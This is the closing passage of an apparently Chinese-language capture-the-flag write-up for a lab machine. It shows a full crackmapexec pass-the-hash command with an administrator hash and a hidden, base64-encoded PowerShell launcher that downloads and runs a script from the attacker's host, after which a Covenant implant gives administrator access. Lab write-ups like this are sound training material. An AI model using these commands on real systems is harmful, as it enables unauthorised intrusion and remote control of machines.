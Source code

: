 现在我有了管理员的散列，我可以传递散列了。我使用 cme 执行 PowerShell 命令，这是一个编码的 PowerShell 启动器:

```
sudo /opt/cme smb 10.10.10.175 -d egotistical-bank.local -u administrator -H 'd9485863c1e9e05851aa40cbb4ab9dff' -X "powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA6ADkAMAAwADAALwBhAC4AcABzADEAJwApAA=="
```

![](img/c59f62a69edd43505f86d0531e807f06.png)

然后，我收到一个通知，通知我一个`Grunt`被激活:

![](img/00d10247982947753960639232c8d593.png)

检查我的`Grunts`:

![](img/fd409c0ff0953c83ce3914efbb25652b.png)

然后，我与作为管理员运行的 Grunt 进行交互，并从那里读取标志。

![](img/555614c5b07b5c07924b3772a72a5e60.png)

我的文章到此结束。我希望你学到了新的东西！感谢阅读！🍺